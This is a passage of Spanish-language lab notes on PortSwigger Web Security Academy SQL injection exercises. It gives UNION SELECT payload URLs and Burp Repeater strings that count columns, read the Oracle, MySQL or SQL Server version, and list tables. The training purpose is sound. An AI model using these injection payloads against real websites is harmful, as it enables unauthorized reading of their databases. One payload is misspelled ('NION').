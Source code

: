### SQL injection attack, querying the database type and version on Oracle

En las bases de datos de Oracle, cada declaración `SELECT` debe especificar una tabla para la sentencia `FROM`. Si su ataque `UNION SELECT` no consulta desde una tabla, deberá incluir la palabra clave `FROM` seguida de un nombre de tabla válido.

En esete ejemplo existe una tabla llamada **dual**

```sql
#verificar numero de columnas

https://acd91f601eb3113280ac86510018009d.web-security-academy.net/filter?category='+UNION+SELECT+'a','a'+FROM+dual--

#obtener version 

https://acd91f601eb3113280ac86510018009d.web-security-academy.net/filter?category='+UNION+SELECT+'a',version+FROM+v$instance--

# ó

https://acd91f601eb3113280ac86510018009d.web-security-academy.net/filter?category='+NION+SELECT+banner,'a'+FROM+v$version--

https://acd91f601eb3113280ac86510018009d.web-security-academy.net/filter?category='+UNION+SELECT+banner,NULL+FROM+v$version--
```

podriamos haber comprobados que tablas existian:

```sql
https://acd91f601eb3113280ac86510018009d.web-security-academy.net/filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

Este ejercicio lo tenemos que hacer desde Burp, interceptamos la peticion y editamos la categoria de la URL, la mandamos al repiter y mandamos lo siguiente:

enumerar columnas:

```sql
'+UNION+SELECT+NULL,NULL#
```

En contrar la version en mysql o microsoft sql:

```sql
'+UNION+SELECT+@@version,NULL#
````

![foto](../Portswigger%20images/SQLi1.PNG)

### SQL injection attack, listing the database contents on non-Oracle databases
